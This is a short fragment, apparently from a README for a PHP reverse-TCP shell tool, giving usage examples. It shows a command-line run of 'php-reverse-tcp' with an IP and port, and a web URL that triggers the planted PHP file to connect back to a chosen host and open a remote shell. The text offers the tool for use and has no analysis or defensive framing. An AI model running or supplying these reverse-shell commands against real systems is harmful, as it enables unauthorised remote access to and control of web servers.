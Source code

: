 Bash

```bash
$ php php-reverse-tcp 0.0.0.0 4444
```

URL

```url
http://url/php-reverse-tcp.php?ip=0.0.0.0&port=4444
```